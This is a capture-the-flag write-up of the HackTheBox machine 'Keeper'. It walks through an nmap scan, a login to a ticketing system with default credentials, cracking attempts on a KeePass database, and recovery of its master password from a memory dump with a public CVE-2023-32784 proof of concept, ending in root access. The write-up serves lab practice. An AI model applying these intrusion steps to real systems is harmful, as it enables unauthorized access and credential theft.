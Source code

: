 
---
title: Keeper HTB (English)
image: /assets/img/Anexos/Máquina%20Keeper-17.png
description: Granny HackTheBox Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---



## Introduction

 Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With `SSH` access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the `Keepass` database, we can access the root `SSH` keys, which are used to gain a privileged shell on the host. 
### Machine Description

![](/assets/img/Anexos/Máquina%20Keeper-20.png)

- Name: Keeper
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Keeper](https://app.hackthebox.com/machines/556)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Keeper.pdf)



## Reconnaissance 


Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With `SSH` access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the `Keepass` database, we can access the root `SSH` keys, which are used to gain a privileged shell on the host.



We staring as always using `nmap` in order to know ports and services running in the victim machine.
```shell
nmap -sSCV -p- --open --min-rate=5000 -Pn -n 10.10.11.227 -oN scan1.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-12 18:45 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.95% done; ETC: 18:46 (0:00:05 remaining)
Nmap scan report for 10.10.11.227
Host is up (0.34s latency).
Not shown: 63760 closed tcp ports (reset), 1773 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.94 seconds
```

Nmap reports us the port _22_, and _80_:

In the web we can see two domains so I add those to the _/etc/hosts_

![](/assets/img/Anexos/Máquina%20Keeper.png)

![](/assets/img/Anexos/Máquina%20Keeper-1.png)

 In the _keeper.htb_ domain we can see that there is a login which is using RT:
![](/assets/img/Anexos/Máquina%20Keeper-3.png)
Searching we get the default credentilas and once we trying we successfully login.

![](/assets/img/Anexos/Máquina%20Keeper-4.png)

Once in, I see the next user:

![](/assets/img/Anexos/Máquina%20Keeper-5.png)
## Explotation

On settings dashboard there is a comment with a password:

![](/assets/img/Anexos/Máquina%20Keeper-6.png)


So now we can try using the user and the found password to login via `ssh` and we're in:

```shell
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ ls -la
total 85384
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25  2023 .
drwxr-xr-x 3 root      root          4096 May 24  2023 ..
lrwxrwxrwx 1 root      root             9 May 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23  2023 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23  2023 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24  2023 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23  2023 .profile
-rw-r--r-- 1 root      root      87391651 Apr 12 19:12 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24  2023 .ssh
-rw-r----- 1 root      lnorgaard       33 Apr 12 18:42 user.txt
-rw-r--r-- 1 root      root            39 Jul 20  2023 .vimrc
lnorgaard@keeper:~$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx     
```


A keepass database exists so lets first move it to our machine using `nc`:
![](/assets/img/Anexos/Máquina%20Keeper-9.png)

![](/assets/img/Anexos/Máquina%20Keeper-8.png)

We need the password key to unlock it, we can try using `john`:
```shell
❯ keepass2john passcodes.kdbx > hash
```

```shell
john hash -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "KeePass", but the string is also recognized as "KeePass-opencl"
Use the "--format=KeePass-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
Cost 1 (t (rounds)) is 60000 for all loaded hashes
Cost 2 (m) is 0 for all loaded hashes
Cost 3 (p) is 0 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 3 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:44 3.07% (ETA: 20:33:03) 0g/s 11611p/s 11611c/s 11611C/s gadsden..gabytkm
```

But this is just a rabbit hole. We can try to exploit using the  CVE-2023-32784:


- https://github.com/dawnl3ss/CVE-2023-32784

## Privilage Escalation

```shell
❯ sudo python3 poc.py KeePassDumpFull.dmp
2025-04-12 20:20:09,723 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
I've got this possible passwords. Looking on Google I found what seem the full password:


![](/assets/img/Anexos/Máquina%20Keeper-11.png)
Once in we see the root putty key file, so lets use it in order to log in as root using `putty`:

![](/assets/img/Anexos/Máquina%20Keeper-12.png)

![](/assets/img/Anexos/Máquina%20Keeper-13.png)


![](/assets/img/Anexos/Máquina%20Keeper-14.png)

![](/assets/img/Anexos/Máquina%20Keeper-15.png)

![](/assets/img/Anexos/Máquina%20Keeper-16.png)

And we're root.